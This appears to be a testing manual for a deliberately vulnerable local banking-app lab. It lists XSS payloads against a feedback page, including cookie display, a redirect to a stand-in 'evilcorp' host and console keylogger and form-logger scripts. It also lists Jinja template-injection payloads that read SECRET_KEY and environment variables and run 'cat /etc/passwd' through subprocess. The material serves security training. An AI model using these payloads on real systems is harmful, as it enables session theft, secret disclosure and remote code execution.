 # XSS and Template Injection Testing Manual

## Environment Setup

Before starting, ensure you have:
- Banking-app container running
- Browser Developer Tools open (F12)
- Multiple browser tabs for testing

### Monitoring Setup
1. **Browser Console**: Keep F12 Developer Tools open to catch XSS alerts
2. **Network Tab**: Monitor requests to detect successful injections
3. **Application Logs**: `docker logs banking-app` to see server-side errors

---

## Part 1: XSS (Cross-Site Scripting) Testing

### Target: Feedback System

**Vulnerable Endpoints:**
- `/submit_feedback` - Input point for XSS payloads
- `/feedback/<id>` - XSS execution point (renders `{{ feedback.message|safe }}`)

### Basic XSS Tests

**Test 1: Simple Alert Box**
```html
<script>alert('XSS Vulnerability Found!')</script>
```
- **Expected Result**: Alert box appears when viewing feedback detail
- **Impact**: Confirms basic XSS execution

**Test 2: Cookie Theft**
```
<script>alert('Your cookies: ' + document.cookie)</script>
```
- **Expected Result**: Shows user's session cookies
- **Impact**: Demonstrates potential session hijacking

**Test 3: Page Redirection**
```
<script>window.location.href='http://evilcorp-server:8888'</script>
```
- **Expected Result**: Redirects viewers to external site
- **Impact**: Shows potential for phishing attacks

### Advanced XSS Payloads

**Test 4: Keylogger Simulation**
```
<script>
document.addEventListener('keydown', function(e) {
    console.log('Key pressed: ' + e.key);
});
alert('Keylogger activated - check console');
</script>
```

**Test 5: Form Data Theft**
```
<script>
document.querySelectorAll('input').forEach(input => {
    input.addEventListener('change', function() {
        console.log('Field: ' + this.name + ', Value: ' + this.value);
    });
});
alert('Form monitoring activated');
</script>
```

**Test 6: DOM Manipulation**
```
<script>
document.body.innerHTML = '<h1 style="color:red;">WEBSITE COMPROMISED</h1>';
</script>
```

### XSS via HTML Attributes

**Test 7: Event Handler Injection**
```
<img src="x" onerror="alert('XSS via image error')">
```

**Test 8: SVG-based XSS**
```
<svg onload="alert('SVG XSS')"></svg>
```

### Testing Steps for XSS

1. **Navigate to Feedback Submission:**
   ```
   http://localhost:5000/submit_feedback
   ```

2. **Submit payload in the message field**

3. **View the feedback detail page:**
   ```
   http://localhost:5000/feedback/<feedback_id>
   ```

4. **Check for execution:**
   - Alert boxes appearing
   - Console messages
   - DOM changes
   - Network requests


## Part 2: Server-Side Template Injection (SSTI) Testing

### Target: Transaction Notes System

**Vulnerable Function:** `transaction_detail()` in transaction routes
**Injection Point:** Transaction note field  

### Basic Template Injection Tests

**Test 1: Template Expression Evaluation**
```
{{ 7 * 7 }}
```
- **Expected Result**: Displays "49" instead of "{{ 7 * 7 }}"
- **Impact**: Confirms template injection

**Test 2: Object Introspection**
```
{{ current_user.email }}
```
- **Expected Result**: Displays the current user's username
- **Impact**: Shows access to application objects

**Test 3: Configuration Access**
```
{{ config.SECRET_KEY }}
```
- **Expected Result**: Might display the application's secret key
- **Impact**: Critical security information disclosure

### Advanced SSTI Payloads

**Test 4: File System Access**
```
{{ ''.__class__.__mro__[1].__subclasses__()[104].__init__.__globals__['sys'].modules['os'].listdir('.') }}
```
- **Expected Result**: Lists files in current directory
- **Impact**: File system enumeration

**Test 5: Environment Variables**
```
{{ ''.__class__.__mro__[1].__subclasses__()[104].__init__.__globals__['sys'].modules['os'].environ }}
```
- **Expected Result**: Displays all environment variables
- **Impact**: Sensitive configuration exposure

**Test 6: Command Execution (if possible)**
```
{{ ''.__class__.__mro__[1].__subclasses__()[104].__init__.__globals__['sys'].modules['subprocess'].check_output(['cat /etc/passwd'], shell=True, text=True) }}
```
- **Expected Result**: May execute system commands
- **Impact**: Remote code execution


### Testing Steps for SSTI

1. **Access a transaction detail page:**
   ```
   http://localhost:5000/transaction/<transaction_id>
   ```

2. **Edit the transaction note with SSTI payload**

3. **Submit the note update**

4. **Observe the rendered result:**
   - Check if template expressions are evaluated
   - Look for error messages that reveal information
   - Monitor application logs for exceptions
